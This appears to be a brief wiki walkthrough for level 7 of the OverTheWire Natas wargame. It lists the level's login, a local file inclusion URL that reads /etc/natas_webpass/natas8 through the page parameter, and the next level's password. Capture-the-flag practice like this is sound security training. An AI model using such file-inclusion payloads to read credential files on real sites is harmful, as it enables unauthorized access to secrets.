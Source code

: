 [Category:OverTheWire-Natas](/Category:OverTheWire-Natas "wikilink")

Username: natas7 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 URL:
<http://natas7.natas.labs.overthewire.org>

<http://natas7.natas.labs.overthewire.org/index.php?page=about>

LFI
<http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8>

DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe